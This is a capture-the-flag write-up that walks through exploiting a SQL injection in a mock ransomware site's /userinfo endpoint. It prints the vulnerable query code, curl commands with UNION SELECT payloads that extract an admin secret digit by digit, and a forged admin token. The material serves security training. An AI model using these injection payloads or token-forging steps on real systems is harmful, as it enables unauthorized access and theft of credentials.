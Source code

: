 # Task 7

## Background
> With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.
>
> Generate a new token value which will allow you to access the ransomware site as an administrator.
>
> ### Prompt:
> Enter a token value which will allow you to login as an administrator.

## Writeup
TL;DR: The `/userinfo` page is vulnerable to SQL injection; use this to exfiltrate an admin's secret, then generate a valid cookie using that secret.

Now that we know how the login cookies are generated, in order to generate an admin cookie we need two things: the uid for an admin, and their secret. To do this, we'd need access to the backend database which holds all the user info. Looking at the database accesses done by the server, most use parameterized queries, except for `userinfo`.
```python
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

This page takes a username as a GET query parameter, then looks up some info about that user, displaying the retrieved values as `int`s. However, the thing we care more about is that the query (`infoquery`) is constructed using simple string substitution, which makes it vulnerable to SQL injection. We can test this by running the following (we know the attacker's username from requesting `/userinfo` with their token):
```
$ python3 forge_token.py 16963 > fake_token
$ curl --cookie fake_token "https://xekflqhmhrsoelot.ransommethis.net/jphzwhdbesknahns/userinfo?user=LamentableConservative'--"
...
<body>
        <h1> User Info (LamentableConservative&#39;--) </h1>
        <div class="row">
          <div class="column">
            <div class="box">
              <h3> Date Joined: </h3>
                <p>2021-11-03</p>
            </div>
          </div>
          <div class="column">
            <div class="box">
              <h3> Jobs Completed: </h3>
              <p>19</p>
            </div>
          </div>
          <div class="column">
            <div class="box">
              <h3> Users Helped: </h3>
              <p>27</p>
            </div>
          </div>
          <div class="column">
            <div class="box">
              <h3> Programs Contributed: </h3>
              <p>2</p>
            </div>
          </div>
        </div>
</body>
...
```

The fact that it still spits out our dear friend LamentableConservative's info even though the username given in the request doesn't match exactly means that we have a viable strategy. The only thing that we need to figure out is how to get the admin's secret, which is an alphanumeric string, into the `int` form that this page displays. There are many ways to do this, some more clever than others (i.e. less requests), but I went with the simple option of hex-encoding the secret and sending one hex digit per field. The relevant SQL snippet looks like this.
```sql
INSTR('01234567889ABCDEF', SUBSTR(HEX(<secret>, <index>, 1)))
```

We know the admin's username from `/adminlist`, so the username query we want looks something like
```
idk' UNION SELECT u2.memberSince, INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 1, 1))), INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 2, 1))), INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 3, 1))) FROM UserInfo u2 INNER JOIN Accounts a2 ON u2.uid=a2.uid WHERE a2.userName='HelpfulHandball';--
```

After substitution, the query passed to the backend database would be
```sql
SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='idk' UNION SELECT u2.memberSince, INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 1, 1))), INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 2, 1))), INSTR('0123456789ABCDEF', SUBSTR(HEX(a2.secret, 3, 1))) FROM UserInfo u2 INNER JOIN Accounts a2 ON u2.uid=a2.uid WHERE a2.userName='HelpfulHandball';--'
```

The first selection does nothing, since there isn't a user called "idk", so the only record returned has the membership date (which is replaced by the server anyways, if not empty) and three `int`s representing some digits of the hex-encoded admin secret. We can repeat this, each time getting three more hex digits of secret, until we get the whole thing.

```bash
$ python3 retrieve_secret.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjAyMzgwMzQsImV4cCI6MTY2MjgzMDAzNCwidWlkIjoxNjk2Mywic2VjIjoicmFaUnR1dDJQNHVOZHYySjVsTmI2WmJqR21pUXdQUXkifQ.aSnQHsGETQdqKj9ziprfoHxWt1_sg5_lqsaowWA8I4I"
...
HAEu7PiO8mq7g43xMXKdJUVvajbde8pK
```

Now that we have the secret, we just need the admin's uid, which we can get from one last query injection (replacing all spaces with `%20` to satisfy curl).
```
$ curl --cookie fake_token "https://xekflqhmhrsoelot.ransommethis.net/jphzwhdbesknahns/userinfo?user=idk'%20UNION%20SELECT%200,a2.uid,0,0%20FROM%20Accounts%20a2%20WHERE%20a2.userName='HelpfulHandball'--;"
...
<h3> Jobs Completed: </h3>
<p>9076</p>
...
```

Finally, we update the token forging script with the new credentials, run it one more time, then submit the cookie value to get our task 7 badge!
```
$ python3 forge_token.py 9076
# Netscape HTTP Cookie File
xekflqhmhrsoelot.ransommethis.net	FALSE	/	TRUE	2145916800	tok	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjAyNTkxMjksImV4cCI6MTY2Mjg1MTEyOSwidWlkIjo5MDc2LCJzZWMiOiJIQUV1N1BpTzhtcTdnNDN4TVhLZEpVVnZhamJkZThwSyJ9.AV80EhF0pGBTMDDtnwNfmmAzYdO1QI30V0QgA_d4oQM 
```